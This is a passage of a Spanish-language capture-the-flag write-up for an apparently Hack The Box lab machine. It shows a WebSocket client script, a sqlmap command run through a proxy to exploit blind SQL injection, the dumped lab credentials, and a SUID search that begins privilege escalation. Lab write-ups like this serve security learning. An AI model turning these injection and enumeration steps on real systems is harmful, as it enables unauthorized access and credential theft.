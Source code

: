 #### Puerto 9091 ####

Uno de los protocolos mas utilizados son los **WebSockets** (ws://), que funciona como APIs. Para interactuar con ellos, es posible utilizar aplicaciones como **websocat**, aunque tambien se pueden usar scripts en python, como el siguiente:
```
from websocket import create_connection
import json

ws_host = 'ws://soc-player.soccer.htb:9091' #Host

ws = create_connection(ws_host) #Raiz a la que acceder, por defecto el host
ws.send(json.dumps({"id":"1"})); #Parametros a enviar

result = ws.recv()
print(result)
``` 
Ejecutandolo, devuelve el mismo error que la pagina web:
```
Ticket Doesn't Exist
```
Para automatizar el proceso de busqueda de vulnerabilidades en el WebSocket, se pueden utilizar distintas herramientas, como **Sqlmap**. Sin embargo, al no tratarse del protocolo http, hay que adaptar el escaneo, tal como se explica en la siguiente [pagina](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html). En pocas palabras, lo que se hace en el post es establecer un servidor intermediario, que intercepta las peticiones realizadas por **Sqlmap**, y las transforma a lenguaje de WebSocket. Simplemente modificando el Host y el parametro "employeeID" por "id", se puede levantar el servidor, el cual devuelve una URL a la que atacar. Finalmente, se puede lanzar **Sqlmap**:
```
focab0r@arsenium:~$ sqlmap -u "http://localhost:8081/?id=*" --level 2 --risk 2 --dump
```
Tras encontrar que es vulnerable a "MySQL >= 5.0.12 time-based blind - Parameter replace", dumpea la base de datos, en la que se encuentra un par usuario-contraseña, validas para ssh.
```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```
La flag se encuentra en `/home/player/user.txt`

### PrivEsc ###
A la hora de mirar que binarios contienen el SUID, aparece, entre otros, **doas**:
```
player@soccer:~$ find / -perm -4000 2> /dev/null

/usr/local/bin/doas

<...SNIP...>
```
**Doas** es una aplcacion muy similar a **sudo**. Permite a un usuario ejecutar comandos como otro usuario diferente, siempre y cuando este habilitado para ello. Como su intalacion no viene por defecto en Linux, esto significa que ha sido instalado a proposito por el administrador.
